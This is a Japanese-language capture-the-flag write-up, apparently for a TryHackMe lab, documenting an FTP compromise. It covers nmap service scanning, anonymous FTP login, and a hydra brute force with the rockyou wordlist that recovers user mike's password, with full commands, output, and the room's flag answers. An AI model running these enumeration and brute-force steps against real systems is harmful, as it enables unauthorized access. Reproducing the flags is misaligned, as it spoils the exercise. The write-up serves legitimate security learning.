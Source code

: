 ## 1.環　境
- ターゲットIP：10.10.119.98  
  
## 2.戦　略
### 2-1.サーバーの状態を列挙
- ユーザ名
- Anonymousユーザの存在
- 各バージョン情報
  
### 2-2.侵　入
- パスワードクラック
- バージョンの脆弱性を突く侵入
- 認証情報取得の上侵入
  
## 3.実　施
### 3-1.ターゲットマシン上で開いている  ポートの数はいくつですか?
- `nmap -A`を実行  
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.119.98                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 04:47 JST
Nmap scan report for 10.10.119.98
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.25 seconds

```
flag:`2`
  
### 3-2.ftp はどのポートで実行されていますか?
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`21`
  
### 3-3.どのような種類の FTP が実行されていますか? 
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`vsftpd`
  
### 3-4.FTP サーバーにAnonymousログインできるかどうかを確認。FTP ディレクトリ内のファイルの名前は何ですか?
- `Anonymous`ログイン試行
- `ls`でディレクトリ表示
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||50076|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
226 Directory send OK.
```
flag:`PUBLIC_NOTICE.txt`
  
### 3-5.ユーザー名として考えられるものは何でしょうか?
- `PUBLIC_NOTICE.txt`を`get`
- ローカルで`PUBLIC_NOTICE.txt`を表示
```bash
ftp> get PUBLIC_NOTICE.txt
local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
229 Entering Extended Passive Mode (|||50866|)
150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
100% |***********************************************************************************************************************************************************************************************|   353        3.65 MiB/s    00:00 ETA
226 Transfer complete.
353 bytes received in 00:00 (1.37 KiB/s)
ftp> exit
221 Goodbye.

```
```bash
┌──(kali㉿kali)-[~]
└─$ cat PUBLIC_NOTICE.txt
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike 
```
おそらく何かのメモと思料。  
`Mike`が名前っぽいのでsubmitしたらクリア  
  
flag:`Mike`
  
### 3-6.ユーザー「mike」のパスワードは何ですか?
- ユーザ名`Mike`を取得できているので、`hydra`でパスワードクラックできないか試してみる
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.119.98 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-10 05:00:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.119.98:21/
[21][ftp] host: 10.10.119.98   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-10 05:00:40

```
`hydra`のオプションについて：
- `-l`：ユーザ名の指定
- `-P`：パスワードリストの指定
- `/usr/share/wordlist/rockyou.txt`：`hydra`や`gobuster`などで頻出のパスワードリスト。まずはこれってやつ
  
`[21][ftp] host: 10.10.119.98   login: mike   password: password`でパスワードクラックに成功  
ユーザ名が既知ならクラックしやすい（感覚）  
  
flag:`password`


### 3-7.FTPサーバーに接続し、ftp.txtを探索。中身を答えよ。
- ユーザ名`mike`、パスワード`password`でログイン
- `ls`でディレクトリを確認し、`get`で`ftp.txt`をローカルにダウンロード
- ローカルに戻り、`cat`で中身を出力
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||32343|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
-rw-r--r--    1 1002     1006            0 Jun 09 19:40 test.txt
226 Directory send OK.
```
```bash
ftp> get ftp.txt
local: ftp.txt remote: ftp.txt
229 Entering Extended Passive Mode (|||25104|)
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
100% |***********************************************************************************************************************************************************************************************|    26      298.71 KiB/s    00:00 ETA
226 Transfer complete.
26 bytes received in 00:00 (0.09 KiB/s)
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat ftp.txt          
THM{y0u_g0t_th3_ftp_fl4g}
```
  
flag:`THM{y0u_g0t_th3_ftp_fl4g}`  
  
